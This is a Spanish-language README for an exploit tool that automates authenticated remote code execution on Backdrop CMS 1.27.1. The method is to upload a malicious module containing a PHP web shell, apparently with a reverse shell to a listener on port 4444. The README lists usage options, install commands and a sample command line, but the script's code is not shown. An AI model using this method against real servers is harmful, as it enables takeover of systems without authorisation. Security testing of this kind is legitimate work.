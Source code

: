 # Backdrop CMS 1.27.1 - Automated Authenticated RCE

Este [script](<autoDropRCE.py>) permite obtener acceso de forma automatizada a la máquina víctima sobre una instalación vulnerable de **Backdrop CMS 1.27.1**. La vulnerabilidad explotada radica en la gestión de módulos, donde el atacante puede subir e instalar un módulo malicioso en el sistema.

Las opciones disponibles son las siguientes:

```ps
usage: autoDropRCE.py [-h] -t TARGET_URL -h-ip HOST_IP -u USERNAME -p PASSWORD [-l PORT]

🪂 Backdrop CMS 1.27.1 - Automated Authenticated RCE 🪂

   ej: python3 autoDropRCE.py -t http://backdrop-example.com -i 172.17.0.1 -u trr0r -p trr0r

options:
  -h, --help                   show this help message and exit
  -t, --target-url TARGET_URL  Target url Backdrop web - ej: http://backdrop-example.com
  -h-ip, --host-ip HOST_IP     Host IP - ej: 172.17.0.1
  -u, --username   USERNAME    Valid Backdrop username - ej: trr0r
  -p, --password   PASSWORD    Valid Backdrop password - ej: trr0r
   
  -l, --listen-port PORT       Listen port                                           (default = 4444)
```

___
## Descripción de la Vulnerabilidad 📜

En el gestor de contenidos **Backdrop** (**1.27.1**) un atacante puede subir módulos maliciosos al sistema. Esto se debe a una debilidad en la forma en que **Backdrop** maneja la carga de módulos a través del **instalador manual de módulos**, lo que facilita la ejecución remota de comandos (**RCE**).
### 1. Módulo Malicioso:

El atacante debe de crear un módulo `.tar` que contenga:
- Un archivo `.php` con código malicioso, como una **web shell**, que permita ejecutar comandos de manera remota (**RCE**).
- Un archivo `.info` que describa el módulo para que así sea registrado como un módulo válido para el sistema **Backdrop CMS**.
### 2. Subida del Módulo:

Para aprovechar esta vulnerabilidad, el atacante necesita autenticarse en **Backdrop CMS**. Una vez autenticado, y si tiene los permisos adecuados, podrá cargar e instalar un módulo malicioso. Este módulo, al ser instalado en el sistema, permitirá al atacante ejecutar comandos de manera remota en el servidor (RCE).

___
## Descarga 📥

Nos clonamos el repositorio de la siguiente forma:

```bash
git clone https://github.com/trr0r/autoDropRCE
cd autoDropRCE
```

Instalamos las librerías necesarias gracias a `pip3`:

```bash
pip3 install -r requirements.txt
```

___
## Uso ⚙️

Una vez que tengas los datos listos, puedes ejecutar el script con el siguiente comando:

```bash
python3 autoDropRCE.py -t http://backdrop-example.com -h-ip 172.17.0.1 -u trr0r -p trr0r
```

![Image](https://github.com/user-attachments/assets/d654ae24-a00d-46d6-9127-facdb019c326)

---
### Advertencia legal ⚠️

> [!WARNING]
Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.